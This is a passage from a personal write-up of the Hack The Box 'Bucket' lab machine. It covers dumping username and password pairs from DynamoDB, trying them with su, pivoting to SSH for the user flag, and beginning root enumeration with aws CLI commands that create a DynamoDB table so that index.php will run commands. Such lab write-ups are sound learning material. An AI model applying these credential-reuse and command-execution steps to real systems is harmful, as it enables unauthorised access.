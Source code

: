         ],
        "Count": 3,
        "ScannedCount": 3,
        "ConsumedCapacity": null
    }
    ```
15. Boom! Username and password combos. Because I am simple minded (and I say this coz this is really the very first I did, but other 'legends' of CTF didn't - I guess its because they have 10 million things going on in their mind while mine is full of cob webs)... I tried to use these passwords on the two users I found from our revershell using `su root` and `su roy`. I won't spoil this, but there are only 3 passwords... dont be lazy and try them all on these two usernames. One will work!
16. Since I now know the password and username... I closed my revershell session and pivot into SSH.
17. Once logged in via SSH... didn't take me long to find the user flag which is available in /home/user.txt

# Root

`Important!`
I tried and tried until blood came out of my nose on this one but I got nowhere. So I turned into a walkthrough video by IPPsec and John Hammond. The next steps are credit to their work and not mine. I will not try to explain it like I normally do but I will explain the methods to get to the same results. Please watch their videos because you will get more info from it than reading below.

## Enum

18. Directories available that is of signaficant importance

    ```
    roy@bucket:/$ cd /var/www/bucket-app
    roy@bucket:/var/www/bucket-app$ ls

    composer.json
    composer.lock
    files
    index.php
    pd4ml_demo.jar
    vendor
    ```

19. index.php contains a script that lets you run commands if you can call it from a table in dynamodb
20. Create a table from dynamodb
    ```
    aws --endpoint-url http://s3.bucket.htb --region us-east-1 dynamodb create-table --table-name alerts --attribute-definitions AttributeName=title,AttributeType=S --key-schema AttributeName=title,KeyType=HASH --provisioned-throughput ReadCapacityUnits=5,WriteCapacityUnits=5
    ```
21. Check if the table is indeed create
    ```
    ┌──(schoon3r㉿nexer)-[~/HTB/212-Bucket]
    └─$ aws --endpoint-url http://s3.bucket.htb --region us-east-1 dynamodb list-tables
    {
        "TableNames": [
            "alerst"
            "users"
        ]
    }
    ```
22. Create a json file to put in the table that was created
